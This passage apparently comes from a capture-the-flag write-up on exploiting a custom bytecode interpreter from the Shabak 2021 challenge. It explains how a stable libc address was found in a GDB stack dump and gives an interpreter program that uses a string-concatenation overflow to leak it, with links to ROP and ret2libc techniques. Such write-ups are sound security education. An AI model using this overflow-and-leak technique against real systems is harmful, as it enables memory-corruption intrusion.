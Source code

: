 Specifically, we set a breakpoint on `execute_interpreter_function` and dump
the stack[^3]:

![GDB execute_interpreter_function stack dump](/img/python4-stack-dump.png)

(The 352 here is the size of the local variables array divided by 8, the pointer size.)

pwndbg's coloring really helps here: we're looking for any addresses that are marked
as code (red) or data (pink). There are quite a few options to choose from, however
it appears that some of these addresses move around. That is, they do not appear at
the same stack location across different runs of the interpreter.

At offset `0xA10`, however, we find what we're looking for:

1. An address within the `libc` data section.
2. That doesn't move around on the stack across runs of the interpreter.
3. Is located at the beginning of the local variable data buffer, so we can easily read
   it via the `print` instruction.

Here's how we leak it:

```plain
label main
    def reg 0x4141414141414141
    print reg
    call leak
    ret
label leak
    def padding0 0x00
    def padding1 0x00
    def padding2 0x00
    def padding3 0x00
    def padding4 0x00
    def padding5 0x00
    def padding6 0x00
    def padding7 0x00
    def padding8 0x00
    def padding9 0x00
    def padding10 0x00
    def padding11 0x00
    def padding12 0x00
    def padding13 0x00
    def padding14 0x00
    def padding15 0x00
    def padding16 0x00
    def padding17 0x00
    def padding18 0x00
    def padding19 0x00
    def padding20 0x00
    def padding21 0x00
    def padding22 0x00
    def padding23 0x00
    def padding24 0x00
    def padding25 0x00
    def padding26 0x00
    def PATTERN "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    def OVERFLOW_HERE ""
    add OVERFLOW_HERE PATTERN OVERFLOW_HERE
    print AAAAAAAAAAAAAAAA
    ret
```


[^1]: Actually, I've been informed by a knowledgeable third-party that the one-gadget
[^2]: Alternatively, let [pwndbg][pwndbg] do all the hard work.
[^3]: The keen-eyed may notice that the dump begins at offset 8 from `RSP`.
[^4]: Another one?! Surely you jest.
[TOC]: {{< ref "/blog/unseen-shield.md" >}}
[Challenge]: https://archive.org/download/shabak-challenge-2021/shabak-challenge-2021.zip/
[baby-risc]: {{< ref "/blog/baby-risc.md" >}}
[paging]: {{< ref "/blog/paging.md" >}}
[shadow-stack]: https://releases.llvm.org/7.0.1/tools/clang/docs/ShadowCallStack.html
[one-gadget]: https://github.com/david942j/one_gadget
[ret2dlresolve]: https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62
[srop]: https://en.wikipedia.org/wiki/Sigreturn-oriented_programming
[ret2libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[pwndbg]: https://github.com/pwndbg/pwndbg
[strncat]: https://en.cppreference.com/w/c/string/byte/strncat
[ropgadget]: https://github.com/JonathanSalwan/ROPgadget